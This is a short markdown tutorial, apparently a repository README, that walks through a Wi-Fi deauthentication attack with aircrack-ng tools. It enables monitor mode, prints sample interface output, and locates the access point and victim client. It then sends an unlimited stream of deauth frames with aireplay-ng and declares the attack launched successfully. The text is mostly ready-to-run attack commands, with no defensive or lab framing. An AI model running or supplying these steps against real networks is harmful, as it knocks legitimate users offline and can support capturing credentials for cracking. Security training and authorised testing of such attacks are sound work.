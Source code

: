 ## Deauth attack
1. Enable monitor mode
	`airmon-ng start wlan0`
	`iwconfig`
	
	```lo        no wireless extensions.

	eth0      no wireless extensions. 
	
	wlan0     IEEE 802.11  ESSID:"#SSID# "  
          Mode:Managed  Frequency:2.452 GHz  Access Point: BC:8A:E8:44:73:BF   
          Bit Rate=1 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=66/70  Signal level=-44 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:162   Missed beacon:0

	wlan1mon  IEEE 802.11  Mode:Monitor  Frequency:2.452 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
	```
	
2. Get the BSSID of the Access Point

	`airodump-ng wlan1mon`
	
	![Screenshot](airodump_victim.png)
	
3. Search for victim

	`airodump-ng -d <AP> -c <CHANNEL>`
	
	![Screenshot1](find.png)
	
4. Send Deauth 

	`aireplay-ng -0 0 -a <AP> -c <VICTIM> wlan1mon`
	
	![Screenshot2](deauth.png)
	
	
### Deauth attack Launched Successfully
